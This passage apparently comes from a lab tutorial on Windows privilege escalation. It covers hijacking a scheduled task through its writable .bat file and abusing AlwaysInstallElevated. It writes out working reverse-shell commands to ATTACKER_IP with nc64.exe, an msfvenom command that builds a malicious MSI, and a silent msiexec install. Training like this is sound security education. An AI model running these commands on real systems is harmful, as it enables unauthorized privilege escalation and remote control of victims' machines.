Just as putty stores credentials, any software that stores passwords, including browsers, email clients, FTP clients, SSH clients, VNC software and others, will have methods to recover any passwords the user has saved.

## Scheduled Tasks

Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or it's using a binary you can modify.

Scheduled tasks can be listed from the command line using the schtasks command without any options. To retrieve detailed information about any of the services, you can use a command like the following one:

```objectivec
Command Prompt
C:\> schtasks /query /tn vulntask /fo list /v
Folder: \
HostName:                             THM-PC1
TaskName:                             \vulntask
Task To Run:                          C:\tasks\schtask.bat
Run As User:                          taskusr1
```

You will get lots of information about the task, but what matters for us is the "Task to Run" parameter which indicates what gets executed by the scheduled task, and the "Run As User" parameter, which shows the user that will be used to execute the task.

If our current user can modify or overwrite the "Task to Run" executable, we can control what gets executed by the taskusr1 user, resulting in a simple privilege escalation. To check the file permissions on the executable, we use icacls:

```objectivec
Command Prompt
C:\> icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Administrators:(I)(F)
BUILTIN\Users:(I)(F)
```

As can be seen in the result, the BUILTIN\Users group has full access (F) over the task's binary. This means we can modify the .bat file and insert any payload we like. For your convenience, nc64.exe can be found on C:\tools. Let's change the bat file to spawn a reverse shell:

```objectivec
Command Prompt
C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```

We then start a listener on the attacker machine on the same port we indicated on our reverse shell:

```objectivec
nc -lvp 4444
```

The next time the scheduled task runs, you should receive the reverse shell with taskusr1 privileges. 

## AlwaysInstallElevated

Windows installer files (also known as .msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges from any user account (even unprivileged ones). This could potentially allow us to generate a malicious MSI file that would run with admin privileges.

This method requires two registry values to be set. You can query these from the command line using the commands below.

```objectivec
Command Prompt
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

To be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible. If these are set, you can generate a malicious .msi file using msfvenom, as seen below:

```objectivec
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```

As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell:

```objectivec
Command Prompt
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

# Abusing Service Misconfigurations

# Abusing dangerous privileges

# Abusing vulnerable software